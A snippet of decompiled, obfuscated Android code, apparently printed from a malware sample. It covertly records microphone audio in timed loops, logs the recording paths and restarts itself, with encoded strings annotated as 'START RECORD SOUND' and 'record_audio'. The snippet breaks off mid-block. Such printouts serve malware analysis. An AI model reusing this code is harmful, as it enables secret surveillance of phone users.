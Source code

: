 ```cs
                this.b.a(this.a("ZGJmNzA5OGFmYQ=="), this.a("ZGJlYzFkOTZlYTc2NTMxMDhhODMyOTc3MWUxYTU0ZmE5YmZj"));  // START RECORD SOUND
                                                                                                                   // SOUND
                this.a = false;
                mediaRecorder0.setAudioSource(1);
                mediaRecorder0.setOutputFormat(3);
                mediaRecorder0.setAudioEncoder(1);
                mediaRecorder0.setOutputFile(s2);
                Thread thread0 = new Thread(new Runnable() {
                    @Override
                    public final void run() {
                        try {
                            if(v == -1) {
                                Thread.sleep(900000L);
                            }
                            else {
                                Thread.sleep(v * 1000);
                            }
                        }
                        catch(InterruptedException unused_ex) {
                            izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                          // SOUND
                            try {
                                mediaRecorder0.stop();
                                mediaRecorder0.release();
                                izyiyumk.this.b.a(izyiyumk.this.a("Y2VmMTEwODE="), s2);  // FILE
                                String s = izyiyumk.this.b.j(this, izyiyumk.this.c.ba);
                                izyiyumk.this.b.e(this, izyiyumk.this.c.ba, s + izyiyumk.this.a("YWI5Yjdm") + s2);  // ###
                                if(v == -1) {
                                    if(izyiyumk.this.b.j(this, izyiyumk.this.c.aZ).equals(izyiyumk.this.a("Yjk="))) {  // 1
                                        Intent intent0 = new Intent(this, izyiyumk.class).putExtra(izyiyumk.this.a("ZmNkMTNmYWY="), izyiyumk.this.a("YTU4OQ==")).putExtra(izyiyumk.this.a("ZTZkOTMxYTE="), izyiyumk.this.a("ZmFkZDNmYWJjYzMyNWUzNGJjYTgxMjVj"));  // record_audio
                                                                                                                                                                                                                                                                  // name
                                                                                                                                                                                                                                                                  // -1
                                                                                                                                                                                                                                                                  // tick
                                        izyiyumk.this.startService(intent0);
                                        return;
                                    }

                                    izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                                    return;
                                }

                                izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                            }
                            catch(Exception unused_ex) {
                            }

                            return;
                        }
                        catch(Throwable unused_ex) {
```